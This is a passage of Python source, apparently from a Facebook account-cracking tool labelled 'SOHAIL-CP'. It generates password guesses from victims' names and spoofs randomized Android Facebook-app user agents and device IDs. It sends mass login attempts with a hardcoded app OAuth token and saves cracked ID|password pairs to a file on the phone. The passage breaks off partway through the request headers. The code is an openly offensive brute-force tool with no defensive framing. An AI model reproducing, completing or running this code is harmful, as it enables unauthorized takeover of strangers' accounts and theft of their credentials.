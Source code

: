                                 elif 'www.facebook.com' in q['error_msg']:
                                        if 'y' in pcp:
                                                print(f'\r\r\x1b[38;5;126m [SOHAIL-CP] '+ids+' | '+pas+'\033[1;97m')
                                                open(f'/sdcard/SOHAIL-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                                cps.append(ids)
                                                break
                                else:
                                        continue
                        loop+=1
                except requests.exceptions.ConnectionError:
                        time.sleep(10)
                except Exception as e:
                        pass
def api1(ids,names,passlist):
                try:
                        global ok,loop
                        sys.stdout.write(f'\r\r\033[1;37m [SOHAIL1x1] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
                        fn = names.split(f' ')[0]
                        try:
                                ln = names.split(f' ')[1]
                        except:
                                ln = fn
                        for pw in passlist:
                                pas = pw.replace(f'first',fn.lower()).replace(f'First',fn).replace(f'last',ln.lower()).replace(f'Last',ln).replace(f'Name',names).replace(f'name',names.lower())
                                application_version = str(random.randint(111,555))+'.0.0.'+str(random.randrange(9,49))+str(random.randint(111,555))
                                application_version_code=str(random.randint(000000000,999999999))
                                fbs=random.choice(fbks)
                                gtt=random.choice(xxxxx)
                                gttt=random.choice(xxxxx)
                                android_version=str(random.randrange(6,13))
                                ua_string = f'Davik/2.1.0 (linex; U; Android {str(android_version)}.0.0; {str(gtt)} Build/{str(gttt)} [FBAN/FB4A;FBAV/{str(application_version)};FBBV/{str(application_version_code)};FBDM/'+'{density=2.0,width=720,height=1280};'+f'FBLC/es_CU;FBRV/{str(application_version_code)};FBCR/Movistar;FBMF/samsung;FBBD/samsung;FBPN/{str(fbs)};FBDV/{str(gtt)};FBSV/7.0;FBOP/1;FBCA/armeabi-v7a:armeabi;]'
                                device_id = str(uuid.uuid4())
                                adid = str(uuid.uuid4())
                                data = {'adid':adid,
                                        'email':ids,
                                        'password':pas,
                                        'cpl':'true',
                                        'credentials_type':'device_based_login_password',
                                        "source": "device_based_login",
                                        'error_detail_type':'button_with_disabled',
                                        'source':'login','format':'json',
                                        'generate_session_cookies':'1',
                                        'generate_analytics_claim':'1',
                                        'generate_machine_id':'1',
                                        "locale":"es_CU","client_country_code":"CU",
                                        'device':gtt,
                                        'device_id':adid,
                                        "method": "auth.login",
                                        "fb_api_req_friendly_name": "authenticate",
                                        "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler"}
                                head = {
                                        'content-type':'application/x-www-form-urlencoded',
                                        'x-fb-sim-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-type':'unknown',
                                        'Authorization':'OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32',
                                        'user-agent':ua_string,
                                        'x-fb-net-hni':str(random.randint(2e4,4e4)),
                                        'x-fb-connection-bandwidth':str(random.randint(2e7,3e7)),